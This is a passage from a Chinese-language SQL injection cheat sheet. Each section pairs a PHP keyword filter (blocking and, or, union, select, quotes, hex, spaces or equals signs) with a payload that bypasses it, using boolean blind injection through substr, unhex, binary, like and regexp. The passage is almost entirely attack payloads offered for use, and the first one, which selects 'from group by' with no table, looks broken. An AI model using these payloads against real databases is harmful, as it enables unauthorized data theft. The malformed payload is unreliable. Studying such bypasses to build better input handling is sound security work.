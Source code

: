 过滤代码：`preg_match('/(and|or|union|where|limit)/i', $id)`

绕过：`|| (select min(user) from group by user_id having user_id=1 ='admin'`

### [](#95-group-by-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.5 group by 过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>\|(select substr((select group_concat(name)name from test), 1, 1))='t'<br>``` |

### [](#96-select-%E5%8F%8A%E5%8D%95%E5%BC%95%E5%8F%B7%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.6 select 及单引号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)`

绕过：

布尔盲注不需要 select

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br>\| substr(name,1,1)=0x74<br>\| substr(name,1,1)=unhex(74)<br>``` |

### [](#97-hexunhex-%E5%8F%8A-substr-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87---binary)9.7 hex、unhex 及 substr 过滤绕过 - binary

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>\| binary(name) = 0x74657374<br>``` |

### [](#98-%E7%A9%BA%E6%A0%BC%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.8 空格过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s)/i', $id)`

绕过：注释符代替空格

### [](#99-%E7%AD%89%E5%8F%B7%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.9 等号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s| =)/i', $id)`

绕过：利用 `like、rlike、regexp、!(username<>"admin")(table_name<>'ffll44jj')` 代替等号

### [](#910-%E5%85%B6%E5%AE%83%E7%B1%BB%E5%9E%8B%E7%9A%84%E7%BB%95%E8%BF%87)9.10 其它类型的绕过
